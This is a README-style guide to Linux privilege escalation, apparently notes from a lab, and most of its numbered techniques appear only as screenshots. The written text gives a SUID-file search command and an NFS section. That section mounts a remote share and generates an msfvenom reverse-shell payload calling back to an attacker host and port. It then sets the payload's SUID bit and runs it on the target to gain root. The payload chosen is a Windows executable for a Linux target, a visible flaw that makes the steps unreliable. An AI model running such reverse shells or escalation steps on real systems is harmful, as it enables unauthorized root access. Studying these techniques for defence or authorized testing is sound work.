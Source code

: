 Linux Priviledge Escalation guide:

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

1- Weak file permissions:  (Shadow files read)
         
![Linux_shadow_read](https://user-images.githubusercontent.com/55708909/92296680-d222aa80-ef54-11ea-8dae-da39cd3ef1ca.png)

![Linux_shadow_read_1](https://user-images.githubusercontent.com/55708909/92296755-5ffe9580-ef55-11ea-8c91-fe9b21f62f27.png)

2- Weak file permission:  (Shadow files write)

![Linux_shadow_read_2](https://user-images.githubusercontent.com/55708909/92296828-5de90680-ef56-11ea-9333-c5a1ccd82d52.png)

3- Weak file permission: (Password file read)

![Linux_passwd_read_1](https://user-images.githubusercontent.com/55708909/92296868-eb2c5b00-ef56-11ea-820f-7e33a5d899a1.png)

4- Weak file permission : (Password file write)

![Linux_passwd_read_1](https://user-images.githubusercontent.com/55708909/92296906-5f66fe80-ef57-11ea-81a3-77cac750341f.png)

![LInux_passwd_read_2](https://user-images.githubusercontent.com/55708909/92296908-61c95880-ef57-11ea-93b1-a2db80ad655a.png)

5- Shell escape sequence:

![Linux_shell_escape_1](https://user-images.githubusercontent.com/55708909/92297044-adc8cd00-ef58-11ea-9aa3-ce058605e641.png)

6- Sudo Environment variables:

![Linux_Env_var_1](https://user-images.githubusercontent.com/55708909/92298891-29cc1080-ef6b-11ea-8d87-ad89a8c7ba52.png)

![Linux_Env_var_2](https://user-images.githubusercontent.com/55708909/92298893-2c2e6a80-ef6b-11ea-947f-703f7e8dd797.png)


7- Cronjob (File Permission):

![Linux_Priv_cron_1](https://user-images.githubusercontent.com/55708909/92299071-deb2fd00-ef6c-11ea-8ef0-44c9264cab41.png)

8- Cronjob environment variable:

![Linux_cron_env](https://user-images.githubusercontent.com/55708909/92300464-8e419c80-ef78-11ea-8e9a-8b6b9de73f90.png)

9- Cronjob Wilcharacter:

![LInux_cronjob_wildcharacter](https://user-images.githubusercontent.com/55708909/92300683-6c491980-ef7a-11ea-86cd-a0a358ebab2a.png)

10 SUID/SGID EXECUTE - KNOWN EXPLOITS

find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

![Linux_suid_version_exploit](https://user-images.githubusercontent.com/55708909/92300888-44f34c00-ef7c-11ea-8e99-3d59a2d5ac34.png)

11 SUID/SGID OBJECT INJECTION:

![Linux_suid_object_injection_1](https://user-images.githubusercontent.com/55708909/92301086-255d2300-ef7e-11ea-8f85-fe197990797e.png)

12-SUID/SGID ENVIRONMENT VARIABLE:

![Linux_suid_env_var](https://user-images.githubusercontent.com/55708909/92304588-f99d6580-ef9c-11ea-862e-1efe0a4dda99.png)

13-SUID/SGID ABUSING SHELL FEATURES PART-1:

![Linux_priv_abusing_shell_part_1](https://user-images.githubusercontent.com/55708909/92304721-05d5f280-ef9e-11ea-8618-38333a8699dd.png)

14-SUID/SGID ABUSING SHELL FEATURES PART-2:

![Linux_suid_abusing_part_2](https://user-images.githubusercontent.com/55708909/92304806-f0ad9380-ef9e-11ea-9e25-f57560cc9e3d.png)

15- Password and keys : History files and configuration files

![Linux_priv_history_config](https://user-images.githubusercontent.com/55708909/92304976-8695ee00-efa0-11ea-9870-acacaf777cc1.png)

16- Password and keys: SSH KEYS

![LInux_ssh_root_key](https://user-images.githubusercontent.com/55708909/92305037-0328cc80-efa1-11ea-91fa-64e04110d947.png)

17- NFS:

    cat /etc/exports 
    
    On your machine be root and make a directory nfs for mounting 
    cd /tmp
    mkdir nfs
    mount -o rw,vers=2 10.10.148.67:/tmp /tmp/nfs
    msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.1 LPORT=4444 -f exe > shell.exe
    chmod +xs /tmp/nfs/shell.exe
    transfer it to target machine
    
    On target machine run : /tmp/shell.exe  and you are root








